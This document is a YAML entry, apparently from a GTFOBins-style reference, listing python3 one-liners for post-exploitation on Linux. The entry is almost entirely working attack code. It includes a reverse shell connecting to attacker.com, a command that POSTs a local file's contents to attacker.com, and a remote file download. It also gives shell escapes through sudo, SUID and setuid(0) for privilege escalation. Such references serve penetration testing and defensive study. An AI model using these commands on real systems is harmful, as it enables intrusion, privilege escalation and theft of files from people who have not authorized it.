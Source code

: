 ```yaml
---
functions:
  execute-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  file-write:
    - code: python3 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python3 -c 'open("file_to_read").read()'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
  capabilities-enabled:
    - code: ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```

